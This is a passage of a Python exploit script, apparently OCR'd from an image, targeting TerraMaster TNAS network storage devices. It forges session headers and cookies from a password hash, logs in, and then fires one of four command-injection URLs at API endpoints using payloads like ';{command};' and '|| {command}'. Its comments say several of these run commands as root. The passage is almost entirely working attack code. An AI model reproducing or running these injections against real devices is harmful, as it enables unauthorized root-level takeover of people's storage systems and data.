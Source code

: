 ```python
    return hashlib.md5(f"{key}{toencrypt}".encode("utf8")).hexdigest()

def get_session(use_proxy):
    s=requests.Session()
    if use_proxy is not None:
        s.proxies = {"http":use_proxy, "https": use_proxy}
    return s

def user_session(s, username, password_hash):
    s.cookies.clear()
    cookies = {"kod_name":username, "kod_token":tos_encrypt_str(password_hash), "tos_token":None}
    timestamp=str(int(time.time()))
    s.headers.update({"signature": tos_encrypt_str(timestamp), "timestamp": timestamp})
    s.headers.update({"User-device": "TNAS"})
    s.headers.update({"User-agent": "TNAS"})
    for name,value in cookies.items():
        s.cookies[name] = value

def exploit(s, username, password_hash, rce, command):
    user_session(s, USER, password_hash)
    s.headers.update({"authorization": hashlib.sha256(password_hash.encode("ascii")).hexdigest()})
    
    if rce == 2:
        s.headers.update({"authorization": password_hash})
    print("[*] Session info:")
    for k,v in s.headers.items():
        print("\t"+k+": "+v)
    print("\t"+"Cookie: ", end="")
    for k,v in s.cookies.items():
        print(k+": "+v+"; ",end="")
    print()
 
    print("[*] Logging in... ",end="")
    r=s.get(f"{TARGET}/module/api.php?mobile/login&username={USER}&password={PASS}")
    result=r.json()["msg"]
    print(result)
    if result != "login successful":
        print("[!] Login failed.")
        exit(1)

    #RCEs
    RCEs = [
        #HASH is not really required for the first 2, but i was too lazy...
        f"{TARGET}/tos/index.php?explorer/serverDownload&type=download&save_path=%5C&url=';{command};'&_",  #NEEDS USER  CREDS -> runs as user
        f"{TARGET}/include/ajax/ajaxdata.php?mysqlfunction=1&password=%7C%7C%20{command}",                  #NEEDS ADMIN CREDS -> runs as root

        #REQUIRE MAC ADDRESS AND CREDENTIALS
        f"{TARGET}/module/api.php?wap/serverstatus&servername=';{command};'",                               #NEEDS USER CREDS, ADMIN HASH -> runs as root
        f"{TARGET}/module/api.php?mobile/stopTranscode&md5name=';{command};'"                               #NEEDS USER CREDS, USER HASH -> runs as root
    ]
    print(f"[~] Using: {RCEs[rce]}")

    r=s.get(RCEs[rce])
    print(r.text)

if __name__ == "__main__":
    #CHANGE EXPLOIT TO EITHER GET THE HASH OR LOGIN AND EXECUTE COMMANDS VIA RCEs, also eleveate privileges via other vectors for sqli
    meow="  ^ ^\n (-.-) ...copycats...\n~( ||)"
```